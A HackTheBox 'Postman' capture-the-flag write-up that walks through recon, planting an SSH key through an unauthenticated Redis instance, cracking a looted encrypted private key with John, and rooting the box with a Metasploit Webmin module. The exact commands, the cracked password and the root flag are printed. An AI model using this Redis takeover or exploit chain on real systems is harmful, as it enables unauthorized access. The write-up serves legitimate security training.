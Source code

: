 # HTB-Postman
My writeup for Postman, the HackTheBox machine!

## Starting with standard recon

I discover port 80, 22 and the following especially interesting ones: 

```console
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-13 03:14 EST
Nmap scan report for 10.10.10.160
Host is up (0.22s latency).

PORT     STATE SERVICE
6379/tcp open  redis
| redis-info: 
|   Version: 4.0.9
|   Operating System: Linux 4.15.0-58-generic x86_64
|   Architecture: 64 bits
|   Process ID: 584
|   Used CPU (sys): 9.29
|   Used CPU (user): 3.62
|   Connected clients: 2
|   Connected slaves: 0
|   Used memory: 841.68K
|   Role: master
|   Bind addresses: 
|     0.0.0.0
|     ::1
|   Client connections: 
|     10.10.15.21
|_    10.10.15.23
10000/tcp open http MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn’t have a title (text/html; Charset=iso-8859-1)

Nmap done: 1 IP address (1 host up) scanned in 4.70 seconds
```

## Redis
After some googling, I find CVE-2019-15107 and [this](https://packetstormsecurity.com/files/154197/Webmin-1.920-password_change.cgi-Backdoor.html) link.

To Summarise: 

A Redis instance that doesn’t require authentication can be used to gain a shell by planting SSH keys - thereby creating a 'backdoor'.

To do this we have to download redis-tools: 

```console
$ apt install redis-tools
```
Generate a SSH key pair:
 ```console
$ ssh-keygen -t rsa -C "backdoor"
```
Pad with newlines to avoid compression:
```console
$ (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > ssh.txt
```
Connect to the redis instance:
```console
$ redis-cli -h 10.10.10.160 flushall
$ cat ssh.txt | redis-cli -h 10.10.10.160 -x set crackit

$ redis-cli -h 10.10.10.160
```

And Exploit!
```console

10.10.10.160:6379> config get dir
1) "dir"
2) "/var/lib/redis/.ssh/"
10.10.10.160:6379> config set dir /var/lib/redis/.ssh/
OK
10.10.10.160:6379> config set dbfilename "authorized_keys"
OK
10.10.10.160:6379> save
OK
```

We can now ssh into the account 'redis'

```console
$ chmod 600 id_rsa
$ ssh -i id_rsa redis@10.10.10.160
```

Hmm, no user flag. The only other user is 'Matt'

## Privilege Escalation 

The standard enumeration methods don’t work. Time to loot for passwords. 

```
$ find / -name 'id_rsa'
$ cat id_rsa.bak
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,73E9CEFBCCF5287C

JehA51I17rsCOOVqyWx+C8363IOBYXQ11Ddw/pr3L2A2NDtB7tvsXNyqKDghfQnX
cwGJJUD9kKJniJkJzrvF1WepvMNkj9ZItXQzYN8wbjlrku1bJq5xnJX9EUb5I7k2
7GsTwsMvKzXkkfEZQaXK/T50s3I4Cdcfbr1dXIyabXLLpZOiZEKvr4+KySjp4ou6
cdnCWhzkA/TwJpXG1WeOmMvtCZW1HCButYsNP6BDf78bQGmmlirqRmXfLB92JhT9
1u8JzHCJ1zZMG5vaUtvon0qgPx7xeIUO6LAFTozrN9MGWEqBEJ5zMVrrt3TGVkcv
EyvlWwks7R/gjxHyUwT+a5LCGGSjVD85LxYutgWxOUKbtWGBbU8yi7YsXlKCwwHP
UH7OfQz03VWy+K0aa8Qs+Eyw6X3wbWnue03ng/sLJnJ729zb3kuym8r+hU+9v6VY
Sj+QnjVTYjDfnT22jJBUHTV2yrKeAz6CXdFT+xIhxEAiv0m1ZkkyQkWpUiCzyuYK
t+MStwWtSt0VJ4U1Na2G3xGPjmrkmjwXvudKC0YN/OBoPPOTaBVD9i6fsoZ6pwnS
5Mi8BzrBhdO0wHaDcTYPc3B00CwqAV5MXmkAk2zKL0W2tdVYksKwxKCwGmWlpdke
P2JGlp9LWEerMfolbjTSOU5mDePfMQ3fwCO6MPBiqzrrFcPNJr7/McQECb5sf+O6
jKE3Jfn0UVE2QVdVK3oEL6DyaBf/W2d/3T7q10Ud7K+4Kd36gxMBf33Ea6+qx3Ge
SbJIhksw5TKhd505AiUH2Tn89qNGecVJEbjKeJ/vFZC5YIsQ+9sl89TmJHL74Y3i
l3YXDEsQjhZHxX5X/RU02D+AF07p3BSRjhD30cjj0uuWkKowpoo0Y0eblgmd7o2X
0VIWrskPK4I7IH5gbkrxVGb/9g/W2ua1C3Nncv3MNcf0nlI117BS/QwNtuTozG8p
S9k3li+rYr6f3ma/ULsUnKiZls8SpU+RsaosLGKZ6p2oIe8oRSmlOCsY0ICq7eRR
hkuzUuH9z/mBo2tQWh8qvToCSEjg8yNO9z8+LdoN1wQWMPaVwRBjIyxCPHFTJ3u+
Zxy0tIPwjCZvxUfYn/K4FVHavvA+b9lopnUCEAERpwIv8+tYofwGVpLVC0DrN58V
XTfB2X9sL1oB3hO4mJF0Z3yJ2KZEdYwHGuqNTFagN0gBcyNI2wsxZNzIK26vPrOD
b6Bc9UdiWCZqMKUx4aMTLhG5ROjgQGytWf/q7MGrO3cF25k1PEWNyZMqY4WYsZXi
WhQFHkFOINwVEOtHakZ/ToYaUQNtRT6pZyHgvjT0mTo0t3jUERsppj1pwbggCGmh
KTkmhK+MTaoy89Cg0Xw2J18Dm0o78p6UNrkSue1CsWjEfEIF3NAMEU2o+Ngq92Hm
npAFRetvwQ7xukk0rbb6mvF8gSqLQg7WpbZFytgS05TpPZPM0h8tRE8YRdJheWrQ
VcNyZH8OHYqES4g2UF62KpttqSwLiiF4utHq+/h5CQwsF+JRg88bnxh2z2BD6i5W
X+hK5HPpp6QnjZ8A5ERuUEGaZBEUvGJtPGHjZyLpkytMhTjaOrRNYw==
-----END RSA PRIVATE KEY-----

```

Finding a file in /opt/id_rsa.bak, this is probably Matt's.
I copy the file over and ask John.
```console
$ python3 /usr/share/john/ssh2john.py id_rsa > id_rsa.john
$ john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.john
```

John finds the password to be 'computer2008'. SSH doesn’t work, what else can I do with the password?

```console
$ su Matt
```

I'm in!

## Webmin

Gently skipping over a ton of fumbling about, I find the password to webmin to be Matt's.
After some googling I find a metasploit package: linux/http/webmin_packageup_rce

I add the required information and definitely remember to set SSL=True.

Quick and easy root flag:
```console
$ cat root.txt
a257741c5bed8be7778c6ed95686ddce
```

And I'm done! Thanks for reading!
